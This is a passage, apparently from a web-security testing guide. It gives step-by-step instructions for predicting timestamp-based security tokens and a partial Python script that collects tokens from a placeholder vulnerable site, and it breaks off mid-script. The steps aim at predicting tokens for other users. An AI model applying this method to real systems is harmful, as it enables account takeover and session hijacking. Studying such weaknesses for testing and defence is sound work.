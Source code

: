   - **Time-sensitive attacks**
    1. **Timestamp-based token prediction**:
       - Step 1: Analyze how security tokens are generated
       - Step 2: Test if tokens show patterns related to time
       - Step 3: Collect multiple tokens and analyze their structure
       - Step 4: If timestamp-based, prepare to generate tokens for simultaneous requests
       - Step 5: Send multiple requests at precise timing intervals
       - Step 6: Compare generated tokens to identify patterns
       - Step 7: Predict tokens for other users based on the timestamp pattern
       - Example Python script for timestamp token analysis:
       ```python
       import requests
       import time
       import hashlib
       import base64
       import threading
       
       def generate_token(session, url):
           timestamp = int(time.time())
           response = session.post(url)
           
           # Extract token from response
           token = extract_token_from_response(response)
           
           return {
               "timestamp": timestamp,
               "token": token
           }
       
       def extract_token_from_response(response):
           # Implement based on where the token appears in the response
           # This is just an example
           import re
           match = re.search(r'token=([a-zA-Z0-9_\-\.]+)', response.text)
           if match:
               return match.group(1)
           return None
       
       # Generate multiple tokens and analyze
       session = requests.Session()
       tokens = []
       
       # Generate 10 tokens with precise timing
       for i in range(10):
           token_data = generate_token(session, "https://vulnerable-website.com/generate-token")
           tokens.append(token_data)
           print(f"Token {i+1}: {token_data['token']}")
           print(f"Timestamp: {token_data['timestamp']}")
           print("-" * 50)
           